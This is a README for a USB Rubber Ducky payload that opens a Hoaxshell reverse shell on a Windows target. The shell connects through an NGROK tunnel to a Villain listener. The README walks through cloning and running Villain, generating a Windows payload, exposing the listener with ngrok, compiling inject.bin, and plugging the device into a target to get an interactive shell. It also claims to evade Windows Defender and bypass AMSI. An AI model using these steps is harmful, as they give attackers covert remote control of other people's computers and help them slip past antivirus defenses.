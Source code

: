 **Title: Hoaxshell via Villain Payload and NGROK Tunnel**

<p>Author: HackingMark<br>
OS: Windows<br>
Version: 1.0<br>
Requirements: DuckyScript 3.0, powershell, Linux Maschine with Villain, NGROK</p>

**What is Villain?**
#
*Villain is a Toolset to setup Payloads and Listener for Hoaxshell*
*Hoaxshell is actually undetected by Windows Defender and the Payload is optimized to bypass AMSITrigger*
*The Powershell Payload connects the target Machine back to the Hoaxshell Server, NGROK makes this Server reachable from the Internet. *
*That way you can catch your session from everywhere. Once your session is established, you can open an interactive shell.*



**How to use this Payload**

First clone Villain from Repo:
`git clone https://github.com/t3l3machus/Villain`
Then install Requirements:
`cd Villain`
`pip install -r ./requirements.txt`
Allow Villain to start:
`chmod +x ./Villain.py`
Fire it up:
`./Villain.py`
Generate a payload to get the session identifier:
`generate os=windows lhost=0.0.0.0 lport=8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/villain.png)

Establish NGROK Tunnel forwarding Traffic to our Hoaxshell Engine
`ngrok http 8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok1.png)
Leave this Window open
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok2.png)

**Preparing the Payload:**
You need 2 Values from above: NGROK HTTPS Link and Session Identifier from Villain
Put it into the Payload then compile it to inject.bin
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/payloadstudio)

Copy your Inject.bin to your Ducky!

<p>Plug your Ducky into a Windows target.<br>
Achieve reverse shell.<br>
   open a shell with </p>`shell {SESSION-ID}`
